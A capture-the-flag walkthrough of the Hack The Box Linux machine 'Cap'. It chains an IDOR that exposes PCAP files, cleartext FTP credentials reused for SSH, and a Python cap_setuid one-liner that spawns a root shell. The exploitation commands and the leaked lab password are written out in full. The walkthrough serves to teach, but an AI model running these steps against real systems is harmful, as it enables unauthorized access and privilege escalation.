


Cap is a pretty straightforward Linux box, but it does a good job of chaining together a few common mistakes.

We start with a web application that exposes PCAP files through an IDOR. One of those captures contains FTP credentials in cleartext, which gives us SSH access as `nathan`. From there, a badly configured `cap_setuid` capability on Python makes the final privilege escalation almost trivial.

Let's get into it.

## Enumeration

As usual, let's start with a classic `nmap` scan:

```bash
nmap -sC -sV -oA nmap/cap 10.129.76.169
```

The scan gives us three interesting ports:

```text
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
Service Info: OSs: Unix, Linux
```

Nothing too exciting yet:

* `21/tcp` → FTP running `vsftpd 3.0.3`
* `22/tcp` → SSH running OpenSSH
* `80/tcp` → a Python/Gunicorn web application called **Security Dashboard**

The web application is the obvious place to start.

## Web Enumeration

Opening `http://cap.htb` gives us a network monitoring dashboard.

The application provides a few different features, including the ability to generate and download packet captures.

One of the download URLs looks like this:


At first glance, this just looks like an ID identifying the capture. But there's something worth testing here: **does the application actually check whether we're allowed to access that particular ID?**

Changing the ID is enough to answer that question.



And yep, we get another PCAP.

That's a classic **Insecure Direct Object Reference (IDOR)**. The application trusts the user-controlled numeric ID without properly checking authorization.

Now we have a PCAP. Time to see what we can find in it.


## Exploitation

### An interesting PCAP

Let's inspect `0.pcap` with `Wireshark`.

Since FTP is running on port 21, that's an obvious protocol to investigate. FTP is also notoriously bad for this kind of thing because authentication happens in plaintext.



Looking through the FTP traffic, we can find:

```text
USER nathan
331 Please specify the password.
PASS Buck3tH4TF0RM3!
230 Login successful.
```

And that's our first real win.

We have:

```text
Username: nathan
Password: Buck3tH4TF0RM3!
```

The important part here isn't just that we found an FTP password. It's that credentials are often reused across services.

Since SSH is exposed, let's try them there.

### SSH access

```bash
ssh nathan@cap.htb
```

The credentials work, giving us a shell as `nathan`.

Let's confirm who we are:

```bash
nathan@cap:~$ id
uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)
```

We have our initial foothold.

Now we need to move from `nathan` to `root`.

## Privilege Escalation

### Looking for Linux capabilities

With a shell on the box, it's time for some local enumeration.

Besides the usual SUID checks, Linux capabilities are always worth looking at:

```bash
getcap -r / 2>/dev/null
```

The interesting result is:

```text
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

There are a few other capabilities on the system, but Python immediately stands out.

Why?

Because giving `cap_setuid` to a general-purpose interpreter is basically giving users the ability to change the UID of their own process.

`cap_setuid` allows a process to change its UID. Since UID `0` is `root`, we can potentially make our Python process become root.

### Abusing `cap_setuid`

We can test this directly with Python:

```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

And check our privileges:

```bash
root@cap:~# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
```